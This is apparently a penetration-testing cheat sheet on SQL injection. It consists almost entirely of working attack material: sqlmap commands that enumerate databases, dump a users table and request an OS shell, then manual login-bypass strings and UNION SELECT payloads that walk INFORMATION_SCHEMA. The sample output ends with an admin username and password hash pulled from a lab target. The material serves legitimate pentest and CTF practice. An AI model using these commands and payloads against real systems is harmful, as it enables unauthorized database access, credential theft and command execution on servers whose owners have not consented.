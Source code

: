 ```yaml
---
title: SQL Injection
sidebar_label: SQL Injection
---
```

* [`sqlmap`](#sqlmap)
  * [GET request](#get-request)
  * [POST request](#post-request)
  * [databases](#databases)
  * [tables](#tables)
  * [data](#data)
  * [columns](#columns)
  * [os shell](#os-shell)
* [INFORMATION_SCHEMA](#information_schema)
  * [INFORMATION_SCHEMA Tables](#information_schema-tables)
* [Manual Methods](#manual-methods)
  * [check vulnerability](#check-vulnerability)
  * [enumerate fields of search query](#enumerate-fields-of-search-query)
  * [enumerate databases](#enumerate-databases)
  * [enumerate tables](#enumerate-tables)
  * [enumerate columns](#enumerate-columns)
  * [show data](#show-data)

# `sqlmap`
If we know the DBMS, we can use option `--dbms=mysql`
## GET request
```
sqlmap -u "http://example.com/?a=1&b=2&c=3" -p "a,b"
```
## POST request
```
sqlmap -u "http://example.com/" --data "a=1&b=2&c=3" -p "a,b" --method POST
```
Alternatively, copy the POST request in the intercept of burpsuite in a file and use it as follows
```
$ cat web.txt
POST /results.php HTTP/1.1
Host: 10.10.10.109
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.109/search.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close
Upgrade-Insecure-Requests: 1

search=killer
```
```
sqlmap -r web.txt -p "search"
```
## databases
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs 
```
## tables
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --tables -D testdb
```
## data
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dump -D testdb -T users
```
## columns
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D testdb -T users --columns
```
### os shell
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --os-shell
```
# INFORMATION_SCHEMA
Refs:
* <https://www.cmi.ac.in/~madhavan/courses/databases10/mysql-5.0-reference-manual/information-schema.html#schemata-table>

INFORMATION_SCHEMA provides access to database metadata.

Metadata is data about the data, such as the name of a database or table, the data type of a column, or access privileges. INFORMATION_SCHEMA is the information database, the place that stores information about all the other databases that the MySQL server maintains. Inside INFORMATION_SCHEMA there are several read-only tables. They are actually views, not base tables, so there are no files associated with them.
## INFORMATION_SCHEMA Tables
* <https://dev.mysql.com/doc/refman/8.0/en/columns-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/schemata-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/st-units-of-measure-table.html>

# Manual Methods
## check vulnerability
```
' or 1='1
' or 1=1;--
' or 1=1;#
') or ('x'='x
' or like '%';--
' or 1=1 LIMIT 1;--

USERNAME: ' or 1/*
PASSWORD: */ =1 --

USERNAME: admin' or 'a'='a
PASSWORD '#
```
## enumerate fields of search query
In burpsuite, go to repeater mode and keep on increasing the numbers till the fields of search query gets printed on the webpage
```
search=killer' UNION SELECT 1,2,3,4,5,6-- -
```
```
<h3>Search results </h3>
ID: 1<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate databases
### current database
```
search=killer' UNION SELECT database(),2,3,4,5,6-- -
```
```
<h3>Search results </h3> 
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
### using INFORMATION_SCHEMA
```
search=killer' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3> 
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: Staff<br/>Name: 2 3
<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email:
6<br/>
```
### all databases
```
search=killer' UNION SELECT GROUP_CONCAT(SCHEMA_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3>
ID: information_schema,Staff,users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate tables
```
search=killer' UNION SELECT GROUP_CONCAT(TABLE_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="Staff"-- -
```
```
<h3>Search results </h3> 
ID: StaffDetails,Users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate columns
```
search=killer' UNION SELECT GROUP_CONCAT(COLUMN_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA="Staff" AND TABLE_NAME="Users"-- -
```
```
<h3>Search results </h3>
ID: UserID,Username,Password<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## show data
```
search=killer' UNION SELECT GROUP_CONCAT(Username,":",Password),2,3,4,5,6 FROM Staff.Users-- -
```
```
<h3>Search results </h3>
ID: admin:856f5de590ef37314e7c3bdf6f8a66dc<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
